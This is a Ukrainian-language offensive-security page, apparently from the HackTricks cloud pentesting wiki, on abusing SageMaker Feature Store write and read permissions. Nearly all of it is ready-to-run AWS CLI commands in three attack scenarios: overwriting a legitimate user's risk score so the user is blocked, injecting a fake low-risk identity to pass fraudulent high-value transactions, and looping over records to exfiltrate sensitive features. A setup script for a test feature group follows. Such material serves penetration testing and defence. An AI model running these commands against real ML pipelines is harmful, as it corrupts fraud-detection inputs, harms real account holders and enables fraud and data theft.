 # SageMaker Feature Store online store poisoning

{{#include ../../../../banners/hacktricks-training.md}}

Зловживання `sagemaker:PutRecord` на Feature Group з увімкненим OnlineStore дозволяє перезаписувати живі значення features, які споживаються для online inference. У поєднанні з `sagemaker:GetRecord` нападник може прочитати чутливі features. Для цього не потрібен доступ до models або endpoints.

## Вимоги
- Дозволи: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Ціль: Feature Group з увімкненим OnlineStore (зазвичай використовується для real-time inference)
- Складність: **LOW** - Прості команди AWS CLI, маніпуляції models не потрібні

## Кроки

### Розвідка

1) Перелічити Feature Groups з увімкненим OnlineStore
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
--region $REGION \
--query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
--output table
```
2) Опишіть цільовий Feature Group, щоб зрозуміти його схему
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
--region $REGION \
--feature-group-name "$FG"
```
Зверніть увагу на `RecordIdentifierFeatureName`, `EventTimeFeatureName` та всі визначення ознак. Вони необхідні для формування дійсних записів.

### Сценарій атаки 1: Data Poisoning (Overwrite Existing Records)

1) Прочитайте поточний дійсний запис
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
2) Poison the record зі шкідливими значеннями, використовуючи inline-параметр `--record`
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
]" \
--target-stores OnlineStore
```
3) Перевірте отруєні дані
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
**Вплив**: ML-моделі, що використовують цю ознаку, тепер бачитимуть `risk_score=0.99` для легітимного користувача, що потенційно призведе до блокування їхніх транзакцій або сервісів.

### Сценарій атаки 2: Зловмисне введення даних (Створення фальшивих записів)

Впровадьте повністю нові записи з маніпульованими ознаками, щоб обійти заходи безпеки:
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
]" \
--target-stores OnlineStore
```
Перевірте ін'єкцію:
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-999
```
**Вплив**: Зловмисник створює фейкову ідентичність з низьким оцінюванням ризику (0.01), яка може здійснювати високовартісні шахрайські транзакції, не викликаючи спрацьовування системи виявлення шахрайства.

### Сценарій атаки 3: Експфільтрація чутливих даних

Прочитати кілька записів, щоб витягти конфіденційні ознаки та профілювати поведінку моделі:
```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
echo "Exfiltrating data for ${USER_ID}:"
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string ${USER_ID}
done
```
**Вплив**: Конфіденційні ознаки (бали ризику, шаблони транзакцій, персональні дані) доступні зловмиснику.

### Створення тестової/демо Feature Group (необов'язково)

Якщо потрібно створити тестову Feature Group:
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=test-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)

aws sagemaker create-feature-group \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-feature-name entity_id \
--event-time-feature-name event_time \
--feature-definitions "[
{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
]" \
--online-store-config "{\"EnableOnlineStore\":true}" \
--role-arn "$ROLE_ARN"

echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
done
fi

echo "Feature Group ready: $FG"
```
## Джерела
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
